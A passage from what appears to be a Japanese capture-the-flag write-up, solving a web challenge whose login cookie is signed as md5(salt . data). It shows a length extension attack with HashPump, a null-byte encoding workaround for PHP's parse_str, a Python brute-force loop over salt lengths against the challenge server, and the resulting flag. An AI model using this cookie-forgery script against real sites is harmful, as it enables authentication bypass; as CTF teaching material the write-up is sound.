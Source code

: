 `Kana` でログインすればよいようですが、`$salt` が不明なため署名はそのままでは得られません。ですが、`$signature = md5($salt. $data);` ということなので Length Extension Attack ができそうです。

ログインに失敗した場合、以下のような Cookie が発行されていました。

```
Set-Cookie: DataCookie=logged_in=0
Set-Cookie: Signature=11606044ea561db956665279b3073f35
```

[bwall/HashPump](https://github.com/bwall/HashPump) を使えば `DataCookie` の後ろに `1&id=Kana` を追加し、その署名を得られそうです。が、このままでは `DataCookie` に null バイトが含まれてしまうため、以下のように `parse_str` で失敗してしまいます。

```
>>> parse_str("a=1&b=2\0&c=3", $parse); var_dump($parse);
array(2) {
  ["a"]=>
  string(1) "1"
  ["b"]=>
  string(1) "2"
}
```

ここで悩んでいたところ、[@zeosutt](https://twitter.com/zeosutt) さんが null バイトを `%00` に置換すれば通ることを発見されました。

これを利用して、以下のスクリプトを実行するとフラグが得られました。

```python
import urllib
import requests
import hashpumpy

i = 1
while True:
  sig, data = hashpumpy.hashpump('11606044ea561db956665279b3073f35', 'logged_in=0', '1&id=Kana', i)
  r = requests.get('http://signature.cyberrebeat.adctf.online/login.php', cookies={
    'DataCookie': urllib.quote(data).replace('%00', '%2500'),
    'Signature': sig
  })
  print i, r.content
  i += 1
  raw_input('next?')
```

```
$ python s.py
...
27 <html>
<body style="background-color:#715638;color:white">

  <a href = "index.php">return</a><br />


<br />
Login successful!<br />
ID:Kana<br />

FLAG: CRCTF{Two years ago, August 31st.}
```
